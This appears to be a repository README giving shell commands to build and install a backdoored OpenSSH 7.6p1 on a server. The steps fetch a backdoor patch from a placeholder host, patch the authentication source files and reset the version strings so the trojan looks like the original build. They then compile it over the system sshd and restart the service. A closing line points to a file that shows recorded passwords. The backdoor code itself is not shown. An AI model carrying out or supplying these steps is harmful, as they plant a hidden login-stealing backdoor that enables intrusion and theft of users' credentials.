 #### donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#### copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#### Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#### Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#### Install required library   
yum -y install zlib-devel openssl-devel pam-devel   

#### run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#### add backdoor.o to Makefile   
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   

#### compile and install   
make   
make install   

#### restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#### view.c show the password record   

